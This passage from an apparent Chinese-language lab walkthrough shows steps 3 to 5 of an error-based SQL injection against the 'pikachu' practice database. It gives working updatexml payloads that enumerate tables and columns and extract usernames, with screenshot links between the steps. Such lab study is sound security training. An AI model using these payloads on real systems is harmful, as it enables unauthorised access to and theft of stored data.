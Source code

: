 3.爆表`-1') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),0x7e),1)#`

![QQ图片20200305130122.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305130122.png)

4.爆列名`-1') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),0x7e),1)#`

![lsnvslnvbsnbjnsb](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/lsnvslnvbsnbjnsb)

5.爆字段`-1') and updatexml(1,concat(0x7e,(select group_concat(username) from pikachu.users),0x7e),1)#`

![QQ图片20200305130352.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305130352.png)
